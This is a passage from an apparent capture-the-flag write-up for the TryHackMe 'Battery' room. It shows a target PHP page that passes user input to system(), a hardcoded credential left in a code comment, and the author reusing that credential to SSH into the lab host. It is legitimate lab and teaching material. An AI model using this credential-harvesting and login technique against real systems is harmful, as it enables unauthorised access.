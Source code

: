 echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";
//MY CREDS :- cyber:[REDACTED]
if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}
else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>

{% endhighlight %}

Focus on the comment line, I got the **ssh credentials**:

```
//MY CREDS :- cyber:[REDACTED]
```

Login **ssh** as user **cyber** and easily get the first flag which is **Base Flag** in the question task:

```
┌──(kali㉿kali)-[~/TryHackMe/battery]
└─$ ssh cyber@battery.thm
The authenticity of host 'battery.thm (10.10.248.7)' can't be established.
ED25519 key fingerprint is SHA256:bTNXpvfykuLebPN3kSFZTMvEtACHZnk64YKhtu6tMKI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'battery.thm' (ED25519) to the list of known hosts.
cyber@battery.thm's password:
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Oct  6 19:11:41 IST 2023

  System load:  3.07              Processes:           102
  Usage of /:   2.4% of 68.28GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.248.7
```